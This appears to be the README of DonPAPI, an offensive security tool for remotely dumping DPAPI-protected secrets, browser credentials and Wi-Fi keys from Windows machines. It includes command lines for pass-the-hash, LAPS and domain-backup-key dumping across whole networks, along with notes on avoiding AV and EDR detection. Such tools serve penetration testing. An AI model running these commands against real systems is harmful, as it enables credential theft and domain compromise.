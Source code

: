 # DonPAPI
Dumping revelant information on compromised targets without AV detection

## DPAPI dumping
Lots of credentials are protected by DPAPI (link )
We aim at locating those "secured" credentials, and retreive them using :
- user password
- domaine DPAPI BackupKey
- Local machine DPAPI Key (that protect TaskScheduled Blob)

#Curently gathered info: 
- Windows credentials (Taskscheduled credentials & a lot more)
- Windows Vaults
- Windows RDP credentials 
- AdConnect (still require a manual operation)
- Wifi key
- Intenet explorer Creentials
- Chrome cookies & credentials
- Firefox cookies & credentials 
- VNC passwords
- mRemoteNG password (with default config)

#Check for a bit of compliance
- smb signing enabled
- OS/Domain/Hostname/Ip of the audited scope

# Operational use 
with local admin account on a machine, we can :
- gather Machine protected DPAPI secrets, like ScheduledTask, that will contains cleartext login/password of the account that should run the task (Also Wifi passwords)
- extract Masterkey's hash value for every users profiles (masterkeys beeing protected by the user's password, let's try to crack them with Hashcat)
- Identify who is connected from where, in order to identify Admin's personal machines. 
- extract other non-dpapi protected secrets (VNC/Firefox/mRemoteNG)

With a user password, or the domain PVK we can unprotect it's DPAPI Secrets. 
you can pass a full list of credentials that will be tested on the machine.
- gather protected secrets from IE, Chrome, Firefox and start reaching the Azure tenant. 

# Exemples 
dump all secrets of our target machine with an admin account : 

```python DonPAPI.py Domain/user:passw0rd@target```

connect with PTH

```python DonPAPI.py -Hashes XXXXXXXXXX Domain/user@target```

can do kerberos (-k), and local auth (-local_auth)

connect with an account that have LAPS rights:

```python DonPAPI.py -laps Domain/user:passw0rd@target```

you have a few users passwords ? just give them to DonPAPI and it will try to use them to decipher masterkeys of these users. (the file have to contain user:pass, one per line)

```python DonPAPI.py -credz credz_file Domain/user:passw0rd@target```

you got domain admin access and dumped the domain backup key ? (impacket dpapi.py backupkey --export). them dump all secrets of all users of the domain !

`python DonPAPI.py -pvk domain_backupkey.pvk -credz file_with_Login:pass Domain/user:passw0rd@domain_network_list`

target can be an IP, IP range, CIDR, file containing list of the above targets (one per line)


# Opsec consideration
The RemoteOps part can be spoted by some EDR. 
has it's only real use is to get DPAPI Machine key, it could be deactivated (--no_remoteops). but no more taskscheduled credentials in that case.

# INSTALL 
```
git clone https://github.com/login-securite/DonPAPI.git
pip install -r requirements.txt
python3 DonPAPI.py
```

# Credits
All the credits goes to these great guys for doing the hard research & coding : 
- Benjamin Delpy (@gentilkiwi) for most of the DPAPI research (always greatly commented - <3 your code)
- Alberto Solino (@agsolino) for the tremendous work of Impacket (https://github.com/SecureAuthCorp/impacket). Almost everything we do here comes from impacket. 
- Alesandro Z (@) & everyone who worked on Lazagne (https://github.com/AlessandroZ/LaZagne/wiki) for the VNC & Firefox modules, and most likely for a lots of other ones in the futur. 
- dirkjanm @dirkjanm for the base code of adconnect dump (https://github.com/fox-it/adconnectdump) & every research he ever did. i learned so much on so many subjects thanks to you. <3
- @Byt3bl3d33r for CME (lots of inspiration and code comes from CME : https://github.com/byt3bl33d3r/CrackMapExec )
- All the Team of @LoginSecurite for their help in debugging my shity code (special thanks to @layno & @HackAndDo for that)

# TODO
- finish ADSync/ADConnect password extraction
- CREDHISTORY full extraction
- extract windows Certificates
- further analyse ADAL/msteams
- implement Chrome <v80 decoder
- find a way to implement Lazagne's great modules